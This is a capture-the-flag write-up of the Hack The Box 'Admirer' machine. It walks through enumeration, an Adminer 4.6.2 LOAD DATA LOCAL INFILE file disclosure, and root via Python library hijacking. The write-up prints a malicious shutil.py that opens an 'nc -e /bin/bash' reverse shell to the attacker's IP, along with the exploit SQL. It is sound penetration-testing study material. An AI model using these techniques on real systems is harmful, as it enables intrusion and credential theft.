

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/admirer-easy
---

# ✅ Admirer (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Adminer 4.6.2 File Disclosure Vulnerability

**System Vulnerable:** 10.10.10.187

**Vulnerability Explanation:** Adminer versions up to (and including) **4.6.2** supported the use of the SQL statement **LOAD DATA INFILE**. It was possible to use this SQL statement to read arbitrary local files because of a protocol flaw in MySQL.

**Privilege Escalation Vulnerability:** Misconfigure privilege of user and Hijack Python Library

**Vulnerability Fix:** Upgrade to the latest version of Adminer. This vulnerability was fixed in Adminer version **4.6.3**.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
nmap -sC -sV -p- -T4 10.10.10.187
```

.png>)

## Enumeration

Let's start to enumerate each service if any of these services are either contain vulnerable versions or misconfigured.

### Port 21 vsftpd 3.0.3

Try to log in with anonymous it doesn't work as well as there is no interesting vulnerability for us.

.png>)

.png>)

### **Port 80 Apache 2.4.25 (Debian)**

As a result of the Nmap scan, we have found the file **robots.txt** and directory **admin-dir**.

.png>)

By following the file robots.txt, we found some hints that directory **/admin-dir** contacts personal **contacts** and **cred** as well as username **waldo.** Unfortunately, we don't have permission to access it.

.png>)

.png>)

Let's start to enumerate and perform directory traversal by **gobuster** to check if there is any file or directory which we can access.&#x20;

```
gobuster dir -u http://10.10.10.187/admin-dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt -t 20
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.187/admin-dir
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/10/27 10:43:25 Starting gobuster in directory enumeration mode
===============================================================
/contacts.txt         (Status: 200) [Size: 350]
/credentials.txt      (Status: 200) [Size: 136]
                                               
===============================================================
2021/10/27 11:07:47 Finished
===============================================================

```

We have found the same as the hint provided by file **contacts.txt** and **credentials.txt.**

.png>)

.png>)

With all of these credentials, we found valid credentials for access to ftp service. On ftp service, we found 2 files **dump.sql** and **html.tar.gz.**

.png>)

By enumerating on file **dump.sql,** we didn't see any interesting information. Then, extract the file html.tar.gz which contains some folders and files.

```
# xzfv = Extract Zip File Verbose
tar xzfv html.tar.gz
```

.png>)

By enumerating on each file and folder, we found credentials stored on file **index.php** and **/utility-scripts/db\_admin.php.**

.png>)

.png>)

As we didn't found any database port was open on nmap scan. Which mean that, there will be database web portal somewhere. By browsing folder **utility-scripts** we got Forbidden.

.png>)

But while include **info.php** which we have downloaded from ftp service, we return back the info.

.png>)

By searching on google for the machine's name, we found out that there is a database whose name is similar to our machine.&#x20;

.png>)

Then, we found the database login web page of **adminer.php** with version **4.6.2.**

.png>)

We found that <mark style="color:red;">Adminer 4.6.2 is vulnerable to file disclosure</mark>. [#Reference Link](admirer-easy.md#reference-link) at the end.

.png>)

## Exploitation

First, let's configure our MySQL on our kali machine. We will create a database name, username, and password, and allow the host to connect.

.png>)

Create database, username, and password for the specific host.

.png>)

Creating a table of the database name Testing.

.png>)

Change configuration from allowing access only to the local host to any host connected to MySQL database.

.png>)

.png>)

After changing the configuration, we need to restart MySQL service.

```
sudo service mysql restart
```

Let's connect from the database web portal to our database with the credentials that we have created.&#x20;

.png>)

.png>)

By executing the exploit SQL command to read file /var/www/html/index.php, it's going to query the **row 123s**

```
LOAD DATA LOCAL INFILE 'var/www/html/index.php' INTO TABLE Testing FIELDS TERMINATED BY "\n" 
```

.png>)

As we see the Query was executed. Let's get back to our database and display the table Testing. We found out there are other credentials with the same username as **waldo**.

```
show databases;
use Testing;
show tables;
select * from Testing;
```

.png>)

For our previous credentials, we found it doesn't valid on the ssh service. But for this one, it's working on ssh. We can log in ssh to the machine and we got a shell on the machine.

.png>)

## Privilege Escalation

Check for `sudo -l` to check if there is any misconfigure. We can run /script root privilege.&#x20;

.png>)

On file backup.py, we found that it's imported file shutil and make\_archive function with 3 parameters (a, b, c).

.png>)

Let's check on the file `admin_tasks.sh` and we found `backup_web()` functions which is interesting.&#x20;

```
backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
```

To exploit this misconfigure, we will create a reverse shell code and save it as **shutil.py**.&#x20;

```
import os,socket,subprocess

def make_archive(a, b, c):
    os.system("nc -e /bin/bash 10.10.14.31 5555")
```

Let's start listening on port 5555 with netcat.

```
nc -lvp 5555
```

Then, we export the **PYTHONPATH** to our **/tmp** folder which we create file **shutil.py**. Next, we will **run /opt/scripts/admin\_tasks.sh** with root privilege and select option **6 (Backup Web Data)**.

.png>)

Once we executed **admin\_tasks** script, it will run **backup.py** file and import our exploit code on **shutil.py** and execute our reverse shell command.

.png>)

## Reference Link&#x20;

[https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/](https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/)

[https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f](https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)

[https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html](https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html)
